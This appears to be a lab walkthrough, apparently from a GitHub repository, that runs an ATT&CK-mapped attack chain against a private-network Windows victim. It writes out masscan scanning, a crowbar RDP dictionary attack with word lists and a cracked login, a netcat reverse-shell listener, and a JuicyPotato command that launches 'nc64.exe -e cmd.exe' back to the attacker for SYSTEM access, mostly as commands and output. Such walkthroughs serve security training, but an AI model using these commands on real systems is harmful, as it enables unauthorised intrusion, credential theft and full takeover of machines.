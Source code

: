 # CASE1

**Attacker :** 192.168.106.141
**Victim :** 192.168.106.142

------------------------------

## STEP1. Initial Access : External Remote Services(T1133)
Using masscan for RDP port scanning and crowbar for Dictionary Attacks to attempt RDP logon.

| Attack Tools : masscan, crowbar
|- masscan - port scanner : https://github.com/robertdavidgraham/masscan
|- Crowbar - Brute forcing tool : https://github.com/galkan/crowbar
|- Support : OpenVPN, Remote Desktop Protocol (RDP) with NLA support, SSH private key authentication, VNC key authentication

### Attacker

![image](https://github.com/user-attachments/assets/f94a5ef2-97ab-4edd-8a95-6144de8257d4)

[RDP port scan with masscan tool]


```shell

# masscan 192.168.106.142 -p1025-65535 --rate-1000000

┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# masscan 192.168.106.142 -p30000-30040 --rate-1000000

rate-1000000: empty parameter
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2025-01-10 21:32:54 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [41 ports/host]
Discovered open port 30039/tcp on 192.168.106.142

```

![image](https://github.com/user-attachments/assets/d5e815a5-20b5-4d2b-8fbb-6638e739ce00)

[RDP logon Dictionary Attack with crowbar tool]

```shell
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# ls
bunny.exe  crowbar  mimikatz.exe  nc64.exe  passlist.txt  userlist.txt
                                                                                                          
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cat userlist.txt 
test
iglootest
testuser
user
admin
administrator
manager
boss
main                                                                                                      
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cat passlist.txt 
qwer1234!
123456
qwer1234
administrator
admin
test
manager
test1234
test1234!
12345678
Administrator                                                                                             
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cd crowbar       
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1/crowbar]
└─# ./crowbar.py -b rdp -s 192.168.106.142/32 -U ../userlist.txt -C ../passlist.txt -p 30039
2025-01-10 17:15:30 START
2025-01-10 17:15:30 Crowbar v0.4.3-dev
2025-01-10 17:15:30 Trying 192.168.106.142:30039
2025-01-10 17:15:36 RDP-SUCCESS : 192.168.106.142:30039 - testuser:qwer1234
2025-01-10 17:15:45 STOP

```

Attack Tools : xfreerdp
- xfreerdp: https://linux.die.net/man/1/xfreerdp
An X11 Remote Desktop Protocol (RDP) client that is part of the FreeRDP project, enabling RDP access in Linux environments.

![image](https://github.com/user-attachments/assets/238f67a0-ac40-46ec-a21f-eddec0fef27f)

[Connect RDP to xfreerdp]

```shell

```

![image](https://github.com/user-attachments/assets/a3174dd7-ab96-48c8-a5a7-16bf96dec33e)
[The victim's credentials don't match ]


## STEP2. Execution : Command and Scripting Interpreter(T1059)
| Download netcat and JuicyPotato Attack Tool on the attacker’s server, establish reverse shell through netcat to remotely execute cmd commands.


### Attacker
```shell
# cd /home/kali/Attacker_Tool/CASE1
# python3 -m http.server 8080

```
### Victim
![image](https://github.com/user-attachments/assets/2855a712-9824-4c9b-aac6-e0417984f23a)
[ Download netcat and JuicyPotato(bunny.exe) from Attacker server]

![image](https://github.com/user-attachments/assets/12db89a9-05b9-451b-bece-0faf15d44333)
[Detection Windows Defender Security Center]

### Attacker
![image](https://github.com/user-attachments/assets/951621b2-94ba-4249-acbd-77b61b14c48f)
[Connect reverse shell to 4445 port using netcat(nc64.exe)]



![image](https://github.com/user-attachments/assets/ffdb0774-7d1a-4878-9dcd-d420fe71727b)
[ Verify testuser account’s permissions and run cmd with Administrator privilege Enter testuser password stolen by Dictionary Attack ]


```shell
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 4445
listening on [any] 4445 ...
192.168.106.137: inverse host lookup failed: Unknown host
connect to [192.168.106.138] from (UNKNOWN) [192.168.106.137] 50863
Microsoft Windows [Version 10.0.17134.1]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\testuser>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\testuser>runas /user:Administrator "cmd"
runas /user:Administrator "cmd"
Enter the password for Administrator: 

C:\Users\testuser>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\testuser> Start-Process cmd -Verb RunAs
Start-Process cmd -Verb RunAs
PS C:\Users\testuser> 

```

Administrator Permission Console(cmd)

![image](https://github.com/user-attachments/assets/ebe13ef1-0115-49c3-876e-23cbc4af3d4e)
[ Check permission 'SeImpersonatePrivilege' for privilege escalation vulnerabilities ]



```shell
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 4445
listening on [any] 4445 ...
192.168.106.137: inverse host lookup failed: Unknown host
connect to [192.168.106.138] from (UNKNOWN) [192.168.106.137] 50877
Microsoft Windows [Version 10.0.17134.1]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\testuser>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\Users\testuser>![image](https://github.com/user-attachments/assets/4ca929bf-9c94-4201-9950-c4f92366fc4d)

```


![image](https://github.com/user-attachments/assets/44e9409f-e927-4d60-8209-a8c826e4d712)


## STEP3. Privilege Escalation : Abuse Elevation Control Mechanism(T1548)
| Escalate to SYSTEM privilege using the privilege escalation tool JuicyPotato.


Attack Tools : JuicyPotato(bunny.exe)

![image](https://github.com/user-attachments/assets/0460906c-9835-4cab-9f32-7ab4386faee0)
[ Using JuicyPotato(bunny.exe) to steal SYSTEM privilege ]


```shell
c:\Users\testuser>bunny.exe -l 4445 -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\testuser\nc64.exe -e cmd.exe 192.168.106.138 9999"
bunny.exe -l 4445 -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\testuser\nc64.exe -e cmd.exe 192.168.106.138 9999"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4445
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\testuser>


```



